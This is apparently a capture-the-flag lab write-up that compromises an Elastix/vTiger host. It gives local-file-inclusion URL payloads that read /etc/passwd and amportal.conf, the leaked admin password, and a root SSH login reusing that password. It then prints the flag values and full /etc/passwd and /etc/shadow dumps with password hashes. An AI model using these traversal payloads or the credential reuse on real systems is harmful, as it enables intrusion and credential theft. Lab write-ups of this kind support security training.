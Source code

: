 ### VTiger CRM
Reference: *https://www.exploit-db.com/exploits/18770*

Original:

```txt
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

### Elastic Find Creds

Reference: *https://www.exploit-db.com/exploits/37637*

Modified LFI Payload

```txt
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![[can_see_passwords.png]]

Let's get a better view of the log:

```txt
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![[can_see_creds.png]]

Creds:

```txt
asteriskuser::jEhdIekWmdjE
admin::jEhdIekWmdjE
```

We can use these credentials to login as adim in the elastic panel.

![[elastic_admin_panel.png]]

### SSH Service

We can try to ssh to the machine using the same password we found for the admin user for Elastix.

```txt
ssh root@10.10.10.7
```

However we get an error when trying to ssh to the machine:

```txt
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

We can modify our ssh command to add support for diffie-hellman key encryption:

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes256-ctr root@10.10.10.7
```

![[got_root.png]]

![[root.txt.png]]

```txt
963c711ba704b59a2ab5acab43332b81
```


![[user.txt.png]]

```txt
43b0dc42f81a4ab1efb707a6d7a4f69a
```

/etc/passwd

```txt
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
```

/etc/shadow


```txt
root:$1$yYjor88z$SOARx58.XEaj14nlX4iRh1:17263:0:99999:7:::
bin:*:17263:0:99999:7:::
daemon:*:17263:0:99999:7:::
adm:*:17263:0:99999:7:::
lp:*:17263:0:99999:7:::
sync:*:17263:0:99999:7:::
shutdown:*:17263:0:99999:7:::
halt:*:17263:0:99999:7:::
mail:*:17263:0:99999:7:::
news:*:17263:0:99999:7:::
uucp:*:17263:0:99999:7:::
operator:*:17263:0:99999:7:::
games:*:17263:0:99999:7:::
gopher:*:17263:0:99999:7:::
ftp:*:17263:0:99999:7:::
nobody:*:17263:0:99999:7:::
mysql:!!:17263:0:99999:7:::
distcache:!!:17263:0:99999:7:::
vcsa:!!:17263:0:99999:7:::
pcap:!!:17263:0:99999:7:::
ntp:!!:17263:0:99999:7:::
cyrus:!!:17263:0:99999:7:::
dbus:!!:17263:0:99999:7:::
apache:!!:17263:0:99999:7:::
mailman:!!:17263:0:99999:7:::
rpc:!!:17263:0:99999:7:::
postfix:!!:17263:0:99999:7:::
asterisk:!!:17263:0:99999:7:::
rpcuser:!!:17263:0:99999:7:::
nfsnobody:!!:17263:0:99999:7:::
sshd:!!:17263:0:99999:7:::
spamfilter:!!:17263:0:99999:7:::
haldaemon:!!:17263:0:99999:7:::
xfs:!!:17263:0:99999:7:::
fanis:$1$pKpD8eOD$haUM/7L7wmQBUWAVzMy3q.:17263:0:99999:7:::
```